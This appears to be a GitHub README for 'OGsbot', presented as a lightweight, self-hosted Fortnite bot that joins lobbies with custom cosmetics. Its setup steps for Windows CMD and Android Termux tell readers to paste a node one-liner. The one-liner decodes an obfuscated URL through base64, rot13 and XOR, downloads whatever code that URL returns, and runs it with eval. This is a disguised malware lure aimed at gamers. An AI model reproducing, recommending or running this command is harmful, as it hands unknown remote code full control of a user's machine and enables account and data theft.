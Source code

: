 
# 🌌 **OGsbot - Self-Hosted**

OGsbot is a **lightweight**, **easy-to-use** Fortnite bot that lets you join bot lobbies with custom cosmetics.


---

## 🧠 **Features**

- ✅ Join Fortnite bot lobbies
- 🎭 Use custom skins, emotes & cosmetics
- 💻 Fully self-hosted
- ⚡ Low memory usage (under 50MB)
  

---

## 🖥️ **System Requirements**

| Type            | Minimum                         | Recommended              |
|-----------------|----------------------------------|---------------------------|
| 💾 RAM          | 25 MB                           | 50 MB+                   |
| 🧠 CPU          | 1 Core                          | 1 Cores+                 |
| 🌐 Internet     | Basic connection                | Basic connection         |
| packages        | nodeJS                           | nodeJS                   |


---

## 🚀 **How to Start the Bot**

###  Step 1: install nodeJS

1. go to ()
2. press install
3. close it after install

### 📌 Step 2: Open Command Prompt (CMD)

1. Press `Windows + R`
2. Type `cmd`
3. Press `Enter`

### 🧩 Step 3: Paste & Run the Command Below

Copy the full line below and paste it into CMD:


node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"

# note   
(only supports OGsbot1-OGsbot17 currently)
# for mobile 

Install Termux from F-Droid (not Play Store).

Open Termux and run:
pkg install nodejs
then run 

node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"



